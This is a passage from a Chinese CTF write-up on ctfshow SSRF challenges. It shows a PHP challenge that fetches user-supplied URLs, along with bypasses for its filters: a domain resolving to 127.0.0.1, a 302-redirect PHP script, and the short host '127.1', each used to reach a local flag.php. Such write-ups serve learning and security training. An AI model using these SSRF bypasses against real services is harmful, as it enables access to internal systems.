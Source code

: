 直接把`1` 和· `0` 也给过滤了。

可以

* 将自己域名A记录指向`127.0.0.1`

* `http://sudo.cc/` 正好指向127.0.0.1

* 302跳转

  ```php
  <?php
  header("Location: http://127.0.0.1/flag.php");
  
  # POST: url=http://your-domain/ssrf.php
  ```

## web355

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$host=$x['host'];
if((strlen($host)<=5)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> hacker
```

这里要求`$x['host']` 长度不大于5.

直接, `127.1` 正好是5

```
url=http://127.1/flag.php
```

还可找一个域名长度不大于5的域名 A 记录解析到 `127.0.0.1`.

## web356
